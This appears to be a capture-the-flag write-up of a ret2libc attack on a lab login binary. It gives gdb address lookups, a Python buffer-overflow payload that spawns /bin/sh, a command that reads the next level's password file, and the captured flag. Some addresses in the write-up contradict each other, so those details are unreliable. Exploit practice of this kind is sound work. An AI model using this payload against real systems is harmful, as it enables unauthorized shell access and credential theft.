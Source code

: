 # Ret2libc again

On this level we are provided with a program emulating an authentication system, to verify the username and password we have the respective functions which process this logic. The one that processes the username leaves the verification data visible, the username is **dat_wil**, this data is stored at address **`0x80486a8`**.

```
08048464 <verify_user_name>:
...
8048478:	ba 40 a0 04 08       	mov    $0x804a040,%edx
804847d:	b8 a8 86 04 08       	mov    $0x80486a8,%eax
8048482:	b9 07 00 00 00       	mov    $0x7,%ecx
8048487:	89 d6                	mov    %edx,%esi
8048489:	89 c7                	mov    %eax,%edi
804848b:	f3 a6                   repz cmpsb %es:(%edi),%ds:(%esi)
```
Once this check has been passed, and we are invited to the password prompt, we inject an offset pattern for buffer overflow injection, since the second **`fgets()`** is exploitable here :

>Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

`Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()`

Our offset is therefore 80 Bytes according to the **0x41306241** value (I did this manipulation with an offset generator).

- Retrieve **`system()`** address
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
- Retrieve **`exit()`** address
```
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

- Find **`"/bin/sh"`** string address in libc-2.15.so, `find [start lib addr], [end lib addr], [pattern]`
```
(gdb) info proc map
process 1865
Mapped address spaces:

Start Addr   End Addr       Size     Offset objfile
...
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
...

(gdb) find 0x7ffff7a1c000,0x7ffff7bd2000,"/bin/sh"
0xf7f897ec
1 pattern found.
```

This payload will allow us to exploit the flaw present here
```py
python -c 'print "dat_wil\n"+"B"*80+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"' > /tmp/boom
cat /home/users/level02/.pass
```
> Flag : `PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv`
